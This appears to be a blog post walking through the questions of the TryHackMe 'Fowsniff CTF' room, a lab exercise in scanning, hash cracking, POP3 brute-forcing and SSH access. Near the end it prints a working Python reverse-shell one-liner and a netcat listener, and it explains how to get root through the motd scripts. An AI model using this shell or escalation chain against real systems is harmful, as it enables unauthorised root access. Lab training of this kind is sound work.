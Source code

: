 ```yaml
---
title:  "THM: Fowsniff CTF"
date:   2024-03-31 19:00:00 +0000
categories: [Windows]
tags: [Windows]
---
```


![img](/assets/img/ctf-fowsniff.png)  


---
Ref: 

- [THM: Fowsniff CTF](https://tryhackme.com/r/room/ctf)

---
Deploy the machine. On the top right of this you will see a Deploy button. Click on this to deploy the machine into the cloud. Wait a minute for it to become live.



1. Using nmap, scan this machine. What ports are open?


2. Using the information from the open ports. Look around. What can you find?


3. Using Google, can you find any public information about them?


4. Can you decode these md5 hashes? You can even use sites like hashkiller to decode them.

5. Using the usernames and passwords you captured, can you use metasploit to brute force the pop3 login?


6. What was seina's password to the email service?

Answer : **********

7. Can you connect to the pop3 service with her credentials? What email information can you gather?

8. Looking through her emails, what was a temporary password set for her?

Answer format: ***********************

9. In the email, who send it? Using the password from the previous question and the senders username, connect to the machine using SSH.


10. Once connected, what groups does this user belong to? Are there any interesting files that can be run by that group?


11. Now you have found a file that can be edited by the group, can you edit it to include a reverse shell?

Python Reverse Shell:

python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((<IP>,1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'

Other reverse shells: [here](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet).


12. If you have not found out already, this file is run as root when a user connects to the machine using SSH. We know this as when we first connect we can see we get given a banner (with fowsniff corp). Look in /etc/update-motd.d/ file. If (after we have put our reverse shell in the cube file) we then include this file in the motd.d file, it will run as root and we will get a reverse shell as root!


13. Start a netcat listener (nc -lvp 1234) and then re-login to the SSH service. You will then receive a reverse shell on your netcat session as root!

--- 

If you are really really stuck, there is a brilliant walkthrough here: https://www.hackingarticles.in/fowsniff-1-vulnhub-walkthrough/ 

If its easier, follow this walkthrough with the deployed machine on the site.

